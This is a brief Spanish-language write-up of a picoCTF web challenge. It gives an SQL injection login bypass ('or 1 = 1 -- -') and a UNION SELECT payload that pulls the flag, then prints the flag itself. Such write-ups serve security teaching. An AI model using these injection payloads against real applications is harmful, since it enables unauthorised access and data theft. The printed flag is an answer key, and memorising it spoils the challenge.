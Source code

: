 ## Objetivo
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:54842/).
## Solución
- Al probar la pagina colocándole como usuario: admin y contraseña: admin me dice que es una conexión fallida.
```bash
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```
- Así que cambiamos el valor del usuario por una inyección de código SQL.
```bash
username: admin' or 1 = 1 -- -
password: admin' or 1 = 1 -- -
```
- Una vez dentro ponemos el siguiente texto en el buscador:
```bash
Algiers' union select flag,id,1 from more_table;--
```
- Y al darle en Buscar nos aparecerá la bandera.
```bash
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}
```

## Notas Adicionales
## Referencias